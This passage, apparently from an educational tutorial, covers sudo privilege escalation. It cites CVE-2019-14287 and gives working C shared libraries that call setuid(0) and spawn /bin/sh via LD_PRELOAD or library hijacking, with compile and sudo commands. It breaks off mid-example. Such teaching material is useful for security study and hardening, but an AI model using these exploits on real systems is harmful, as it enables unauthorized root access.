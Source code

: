    Specific vulnerabilities in `sudo` itself can be exploited. For example, CVE-2019-14287 allowed users to bypass restrictions by specifying the user ID `-1` or `4294967295`.

### Example: Using LD_PRELOAD with Sudo (Misconfiguration or Vulnerability)

Let's assume a scenario where `sudo` does not sanitize `LD_PRELOAD`. This is a hypothetical situation for educational purposes:

1. **Create a Malicious Shared Library:**

   ```c
   // preload.c
   #include <stdio.h>
   #include <stdlib.h>

   void _init() {
       setuid(0);  // Elevate privileges
       system("/bin/sh");  // Launch a shell
   }
   ```

   Compile the shared library:

   ```bash
   gcc -shared -o preload.so -fPIC preload.c
   ```

2. **Run a Program with Sudo and LD_PRELOAD:**

   ```bash
   sudo LD_PRELOAD=./preload.so some_command
   ```

   If `sudo` does not sanitize `LD_PRELOAD`, this would elevate privileges and launch a shell with root privileges.

### Example: Exploiting Sudo Misconfigurations

If a `sudo` configuration allows running a vulnerable program, you can potentially exploit it. For example, if `sudo` is configured to allow running a program that uses a shared library from an untrusted directory:

1. **Check Sudoers Configuration:**

   ```bash
   sudo -l
   ```

   Look for misconfigurations allowing unrestricted access or running specific programs as root.

2. **Create a Malicious Shared Library:**

   ```c
   // hijack.c
   #include <stdio.h>
   #include <stdlib.h>

   void hijacked_function() {
       printf("Hijacked function called!\n");
       setuid(0);
       system("/bin/sh");
   }
   ```
